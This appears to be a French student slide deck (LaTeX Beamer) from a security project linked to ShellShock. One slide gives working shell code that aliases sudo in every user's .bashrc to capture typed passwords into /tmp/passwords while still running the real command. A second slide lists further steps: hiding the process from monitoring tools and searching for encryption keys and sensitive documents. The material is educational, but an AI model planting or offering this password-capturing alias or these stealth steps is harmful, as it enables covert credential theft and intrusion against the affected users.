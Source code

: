 \documentclass[11pt]{beamer}
\begin{document}
\section{Capturer les mots de passe}
\begin{frame}[fragile]{Capturer les mots de passe}
Pour capturer les mots de passe des utilisateurs, on définit un alias \textbf{sudo} en écrivant ceci dans le \textbf{.bashrc} de chaque utilisateur : 
\begin{lstlisting}
capture(){
    echo -n "[sudo] password for $USER: " && 
    read -rs password && 
    echo "$password:$(whoami)" >> /tmp/passwords && 
    echo "$password" | /usr/bin/sudo -S "$@"
}
alias sudo=capture;
\end{lstlisting}

\end{frame}

\section{Certaines améliorations possibles}
\begin{frame}{Certaines améliorations possibles}
\begin{itemize}
\item être plus discret en empêchant les commandes de "monitoring" (ps, netstat, ...) de voir le processus
\item récupérer plus d'informations sur les utilisateurs de façon automatique
\item rechercher sur le système des clés de chiffrement qui pourraient être intéressantes
\item rechercher des documents sensibles
\end{itemize}
\end{frame}

\section{Démo infection}

\section{Questions ?}

\begin{frame}{Pourquoi ce projet ?}
\begin{itemize}
\item j'ai lu quelques ouvrages à ce sujet, j'avais donc quelques savoirs qui m'ont aidé
\item la découverte publique de ShellShock s'est faite pile au moment où nous devions choisir les projets
\item sujet orienté recherche plutôt que d'écriture de code
\item lié à la sécurité, domaine que j'apprécie particulièrement
\item il n'y avait pas vraiment d'autres sujets intéressants selon moi pour les E-Secure
\end{itemize}
\end{frame}
\end{document}
